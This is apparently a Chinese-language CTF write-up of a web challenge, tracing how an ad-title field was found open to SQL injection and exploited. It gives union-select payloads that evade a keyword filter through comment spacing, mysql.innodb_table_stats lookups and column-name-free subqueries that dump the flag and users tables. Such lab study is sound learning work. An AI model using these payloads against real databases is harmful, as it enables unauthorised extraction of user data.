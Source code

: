 ![[Pasted image 20221125153820.png]]

---
首页长这样

![[Pasted image 20221125153836.png]]

---
`POST`的形式

![[Pasted image 20221125154449.png]]

---
尝试使用`admin`注册时提示该用户已被注册

![[Pasted image 20221125155037.png]]

使用用户名`aaa`和密码`123`注册并登录

![[Pasted image 20221125155328.png]]

![[Pasted image 20221125155358.png]]

![[Pasted image 20221125155509.png]]

`POST`内容

![[Pasted image 20221125155832.png]]

![[Pasted image 20221125155519.png]]

广告详情页是`/detail.php?id=xxx`的形式

![[Pasted image 20221125161128.png]]

尝试对`id`进行`sql`注入

无果QAQ

![[Pasted image 20221125161453.png]]

尝试`SSTI`

![[Pasted image 20221125161510.png]]

![[Pasted image 20221125161520.png]]

貌似对标题有效，但大括号还在，估计和`SSTI`无关，更偏向于`+`直接被过滤了，回到`sql`注入试试

当标题为`and`、`or`或`#`时会提示`标题含有敏感词汇`

![[Pasted image 20221125162659.png]]

对于payload `1'`，访问`detail.php`时发现`mysql`报错

![[Pasted image 20221125163216.png]]

确定是`sql`注入

为什么会用广告名进行`sql`查询呢QwQ

猜测后端是直接维护一张广告名和广告`id`的映射表，然后神奇地用广告名来查询广告内容了（下次记得还是用`id`查好，这样就能直接在url上注入了hiahiahia）

用`union select`检查注入点
```sql
1'/**/union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'
```
麻了22个字段出题人这是要累死人（恼

![[Pasted image 20221125164232.png]]

注入点在2和3

什么，广告名都能注入的嘛，后端你查询咋写的QAQ，用来查询的字符串合着真的只有查询作用呗

---
那就拿广告名来注入叭

查看当前数据库
```sql
1'/**/union/**/select/**/1,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'
```
![[Pasted image 20221125164609.png]]

查看所有数据库

这里改成`where '1'='1`来补全后面的引号了
```sql
1'/**/union/**/select/**/1,group_concat(schema_name),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/from/**/information_schema.schemata/**/where/**/'1'='1
```

![[Pasted image 20221125164918.png]]

大意了，`information`的`or`被ban了QAQ

好的接下来是学习时间（**悲**

---
![[Pasted image 20221125170222.png]]

```sql
1'/**/union/**/select/**/1,group_concat(database_name),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/from/**/mysql.innodb_table_stats/**/where/**/'1'='1
```

---
查看表格

![[Pasted image 20221125170634.png]]

```sql
1'/**/union/**/select/**/1,group_concat(table_name),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/from/**/mysql.innodb_table_stats/**/where/**/'1'='1
```
![[Pasted image 20221125170819.png]]

读取FLAG_TABLE内容

这波不知道字段的查询真的惊到我了，`sql`还能这么玩的嘛
```sql
1'/**/union/**/select/**/1,(select/**/group_concat(a)/**/from/**/(select/**/1/**/as/**/a/**/union/**/select/**/*/**/from/**/ctftraining.FLAG_TABLE)n),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22&&'1'='1
```
![[Pasted image 20221125173613.png]]

被骗了.jpg

读取`users`内容
```sql
1'/**/union/**/select/**/1,(select/**/group_concat(c)/**/from/**/(select/**/1/**/as/**/a,2/**/as/**/b,3/**/as/**/c/**/union/**/select/**/*/**/from/**/users)n),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22&&'1'='1
```

![[Pasted image 20221125173943.png]]

学到了学到了QwQ

#Web #HTTP #SQL注入 #bypass #联合注入